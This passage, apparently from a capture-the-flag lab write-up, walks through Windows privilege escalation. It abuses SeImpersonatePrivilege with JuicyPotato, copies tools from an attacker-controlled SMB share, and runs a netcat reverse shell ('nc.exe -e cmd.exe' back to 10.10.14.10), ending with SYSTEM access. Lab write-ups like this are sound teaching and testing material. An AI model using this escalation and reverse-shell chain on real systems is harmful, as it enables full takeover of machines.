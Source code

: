 ```
\\10.10.14.10\liodeus\winPEAS.bat
```

It gives me a lot of informations but the one I'm interested in is the privileges that I have, winPEAS gives us those privileges, but if you want to do it manually, here's the command :

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

If he user has SeImpersonate or SeAssignPrimaryToken priviles then you are SYSTEM ([https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)). Download the exploit :

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Then start the smb server to transfert files :

```
sudo smbserver.py -smb2support liodeus ./
```

Copy over the Juicypotato and nc :

```
copy \\10.10.14.10\liodeus\nc.exe .
copy \\10.10.14.10\liodeus\JuicyPotato.exe .
```

Start another nc listener :

```
nc -lvp 12345
```

Launch JuicyPotato as follow :

```
c:\Users\merlin\Desktop>JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.14.10 12345" -t *
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.14.10 12345" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
